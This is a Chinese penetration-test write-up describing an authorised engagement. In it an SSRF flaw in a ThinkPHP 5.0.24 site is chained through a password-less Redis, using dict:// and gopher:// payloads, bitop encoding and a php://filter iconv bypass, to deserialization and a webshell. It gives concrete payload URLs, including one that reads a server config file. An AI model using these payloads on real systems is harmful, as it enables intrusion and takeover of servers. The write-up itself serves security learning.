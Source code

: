 
# 一次“SSRF--&gt;RCE”的艰难利用


                                阅读量   
                                **399433**
                            
                        |
                        
                                                                                    



[![](./img/202966/t01e753d12718679029.png)](./img/202966/t01e753d12718679029.png)

> 乐清小俊杰@Pentes7eam

## 前言

一次授权的渗透测试中，发现一处SSRF漏洞，可结合Redis实现RCE，看似近在咫尺，却又满路荆棘，经过不懈努力，最终达成目的。其中有几处比较有意思的地方，抽象出来与大家分享。



## 发现SSRF

目标站点使用ThinkPHP5框架开发，互联网可直接下载源代码，通过代码审计发现一处SSRF漏洞，代码如下所示：

```
public function httpGet($url=""){

        $curl = curl_init();

        curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
        curl_setopt($curl, CURLOPT_TIMEOUT, 8);
        //curl_setopt($curl, CURLOPT_TIMEOUT_MS, 1);
        curl_setopt($curl, CURLOPT_URL, $url);

        $res = curl_exec($curl);
        curl_close($curl);

        return $res;
    }
```

利用SSRF漏洞读取ThinkPHP5配置文件：[http://domain.com/public/index.php?s=index/test/httpget&amp;url=file:////var/www/html/tp_5.0.24/application/config.php](http://domain.com/public/index.php?s=index/test/httpget&amp;url=file:////var/www/html/tp_5.0.24/application/config.php)

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/dm/1024_267_/t01b2e116349c7a0113.png)

如上图所示，目标业务系统采用Redis缓存数据，且密码为空。

利用gopher协议尝试获取info信息：

[http://domain.com/public/index.php?s=index/test/httpget&amp;url=gopher://127.0.0.1:6379/_info](http://domain.com/public/index.php?s=index/test/httpget&amp;url=gopher://127.0.0.1:6379/_info)

发现无回显，一段时间后500错误，疑似连接上后超时退出,原因不明（后期复盘时推测为疑似开启了php短标签导致语法错误）

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_377_/t011c6965db2f49a169.png)

尝试利用dict协议，成功获取Redis的info信息

[http://domain.com/public/index.php?s=index/test/httpget&amp;url=dict://127.0.0.1:6379/info](http://domain.com/public/index.php?s=index/test/httpget&amp;url=dict://127.0.0.1:6379/info)

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/dm/1024_457_/t0150cb9032ad929b60.png)



## 尝试Redis 写Shell

上述信息中显示，Redis服务的PID 为3517，查看/proc/3517/status文件。

其Redis服务用户权限为Redis

而目标Web服务器为Nginx，其用户权限为www-data，故利用Redis写shell，执行flushall操作后可能无法直接还原数据，需要通过本地提权获得ROOT用户。由于存在不确定性，故对于本次渗透测试场景下此方法不可取。

利用Redis dbfilename写shell过程发现写入后门时

[dict://127.0.0.1:6379/set](dict://127.0.0.1:6379/set) d ‘&lt;?php phpinfo();?&gt;’

无法使用“?”符号，如下图所示

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_425_/t0139137ef2e7993639.png)

翻阅Redis文档，发现可以使用bitop命令

bitop知识相关链接地址为：[https://redis.io/commands/bitop](https://redis.io/commands/bitop)，该命令可以对Redis缓存值按位计算并获取结果保存，如下图所示：

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_578_/t01ce3c2da9757130ff.png)

执行save操作后访问目标发现回显500错误，猜测原因可能如下：
<li data-darkmode-color-158683391660910="rgb(230, 230, 230)" data-darkmode-original-color-158683391660910="rgb(0, 0, 0)" data-style="box-sizing: border-box; margin: 0px; font-size: 14px; color: rgb(0, 0, 0);">
目标redis数据过大(目标存在10w+ keys)，导致超过PHP 执行文件大小；
</li>
<li data-darkmode-color-158683391660910="rgb(230, 230, 230)" data-darkmode-original-color-158683391660910="rgb(0, 0, 0)" data-style="box-sizing: border-box; margin: 0px; font-size: 14px; color: rgb(0, 0, 0);">
可能是数据中存在与PHP代码相似数据，解析出现语法错误，导致无法执行。
</li>


## 尝利用ThinkPHP反序列化

查看ThinkPHP的Redis的获取数据代码，发现如果值以think_serialize:开头就可以触发反序列化。

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_460_/t0161f419705292b153.png)

目标ThinkPHP的版本为 5.0.24，该版本存在已知反序列化写文件漏洞，相关漏洞细节链接：[http://althims.com/2020/02/07/thinkphp-5-0-24-unserialize/](http://althims.com/2020/02/07/thinkphp-5-0-24-unserialize/)。采用该链接中的漏洞利用代码，直接生成的反序列化数据如下(数据前加上了think_serialize:)

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/dm/1024_184_/t014afe6b9a37e674ad.png)

测试发现由于反序列化数据流中存在\x00,导致程序报错，如下图所示：

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_220_/t015205eb9d048f31d8.png)

测试发现反序列化数据流中存在“ : ” 符号,dict协议无法传输。

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/dm/1024_246_/t01497da11b69a8cb0b.png)

结合bitop not命令，先对数据进行取反，进入redis后，再取反，得到真正的反序列化数据。过程下图所示。

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/dm/1024_649_/t01843e2d48c9b5e6e3.png)

至此，只要访问代码中触发缓存的点即可触发ThinkPHP5反序列化。



## 修改反序列化利用代码

ThinkPHP反序列化漏洞最终的写入点为

```
file_put_contents($a,'&lt;?php  exit();'.$a)
```

需要使用[php://filter](php://filter)协议来绕过，原有漏洞利用代码:

[php://filter/write=string.rot13/resource=xx](php://filter/write=string.rot13/resource=xx)&lt;?php使用的rot13反转，虽然绕过了exit();但是会导致输出文件出现&lt;?cur 如下图所示

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/dm/1024_474_/t0121d0ccae76b9120a.png)

经测试目标返回500，推测是开启了php短标签导致语法错误，这估计也是前面Redis写shell出现 500状态码的原因。

经过大量尝试，最终发现使用[php://filter//convert.iconv.UCS-4LE.UCS-4BE/resource=abcd](php://filter//convert.iconv.UCS-4LE.UCS-4BE/resource=abcd)该iconv.UCS-4LE.UCS-4BE 函数会将目标4位一反转,从而绕过短标签。

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/dm/1024_237_/t01a0951a32cbdef67d.png)

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/dm/1024_369_/t0175238782605ee6fb.png)

但测试发现目标关键文件始终为空，而本地却可以生成。测试使用写入数据为aaaa仍为空。图为本地生成的关键文件

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_113_/t01c21fb0fa77867ef2.png)

猜测目标开启了php strict模式，关键文件的总字符数不能被4整除(除后余2，如果添加2字符，则写入数据不能正常显示为shell)导致写入为空。

最后尝试[php://filter//convert.iconv.UCS-2LE.UCS-2BE/resource=xxxx](php://filter//convert.iconv.UCS-2LE.UCS-2BE/resource=xxxx)成功getshell。iconv.UCS-2LE.UCS-2BE为2位一反转。



## gopher协议再验证

重新测试gopher协议。最后发现gopher协议会自动url解码一次。

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_283_/t0141a69cebc9695445.png)

通过nc 对比gopher和dict协议后发现，dict会自动加上quit命令 XD

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/dm/1024_422_/t01b9d68b1640048fab.png)

于是成功让gopher有回显，url=[gopher://127.0.0.1:6379/_set](gopher://127.0.0.1:6379/_set) key aa%253abbcc%250d%250aquit如下图所示：

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/dm/1024_235_/t01d6963695311713ba.png)

但是使用url=[gopher://127.0.0.1:6379/_set](gopher://127.0.0.1:6379/_set) key aa%2500bbcc%250d%250aquit时，仍然超时，猜测可能被截断，但是对比nc数据包发现和发送数据一致。

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/dm/1024_105_/t01197abe96bb2cf037.png)

尝试将数据包直接导入redis

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/dm/1024_330_/t01a31706d49cc81afb.png)

发现并没有修改成功，尝试导入redis-cli

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_293_/t018972e41662c3a20f.png)

修改成aa？那么真相只有一个 -&gt; 我是菜鸡

redis-cli 的命令会被转化。如下图所示：

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/dm/1024_233_/t016a15df6f6df09348.png)

于是使用如上图的方式即可传入\x00字符：

```
url=gopher://127.0.0.1:6379/_*3%250d%250a$3%250d%250aset%250d%250a$3%250d%250akey%250d%250a$4%250d%250aaa%2500a%250d%250aquit
```

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_305_/t018b36f0f728e82556.png)



## 其他

经测试也可以使用 Redis bitfield命令（相关命令说明链接：[https://redis.io/commands/bitfield)](https://redis.io/commands/bitfield))来快速设置字符:

[![](./img/202966/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_198_/t01d69966bf94590d96.png)
